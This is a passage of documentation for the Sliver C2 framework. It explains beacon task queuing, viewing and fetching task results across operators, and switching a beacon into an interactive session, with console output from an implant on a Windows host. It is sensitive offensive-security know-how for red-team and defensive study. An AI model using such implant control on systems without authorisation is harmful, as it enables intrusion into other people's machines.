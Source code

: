 You should see a blue prompt indicating that we're interacting with a beacon as apposed to a session (red). Commands are executed the same way as a session, though not all commands are supported in beacon mode.

```
[server] sliver (RELATIVE_ADVERTISEMENT) > ls

[*] Tasked beacon RELATIVE_ADVERTISEMENT (962978a6)

[+] RELATIVE_ADVERTISEMENT completed task 962978a6

C:\git
======
drwxrwxrwx  a                           <dir>     Wed Dec 22 15:34:56 -0600 2021
...
```

Tasks will execute in the order they were created (FIFO).

**⚠️ IMPORTANT:** Tasks results will block until all tasks that were part of the same "check-in" have completed. If you have one short running and one long running tasks that are executed as part of the same check-in the short task results will wait for the results of the long running task. Consider executing long running tasks on their own interval. This includes tasks assigned by multiple operators, as the implant is not "aware" of the multiple operators.

You can view previous tasks executed by the active beacon using the `tasks` command:

```
[server] sliver (RELATIVE_ADVERTISEMENT) > tasks

 ID         State       Message Type   Created                         Sent                            Completed
========== =========== ============== =============================== =============================== ===============================
 90294ad2   completed   Ls             Sat, 22 Jan 2022 14:45:00 CST   Sat, 22 Jan 2022 14:45:11 CST   Sat, 22 Jan 2022 14:45:11 CST
 962978a6   completed   Ls             Sat, 22 Jan 2022 14:42:43 CST   Sat, 22 Jan 2022 14:43:53 CST   Sat, 22 Jan 2022 14:43:53 CST
```

You can get the old output from the task using `tasks fetch` and selecting the task you want to see the output from. Operators in multiplayer mode can fetch output from tasks issued by any other operator on the server. However, operators will only see the automatic results from tasks that they themselves executed. You can disable the automatic display of task results using the `settings` command.

#### Switching from Beacon Mode to Session Mode

You can use the `interactive` command to task a beacon to open an interactive session, with no arguments the current C2 channel will be used:

```
[server] sliver (RELATIVE_ADVERTISEMENT) > interactive

[*] Using beacon's active C2 endpoint: mtls://192.168.1.150:8888
[*] Tasked beacon RELATIVE_ADVERTISEMENT (3920e899)

[*] Session 223fac7e RELATIVE_ADVERTISEMENT - 192.168.1.178:54733 (WIN-1TT1Q345B37) - windows/amd64 - Sat, 22 Jan 2022 14:55:24 CST
```
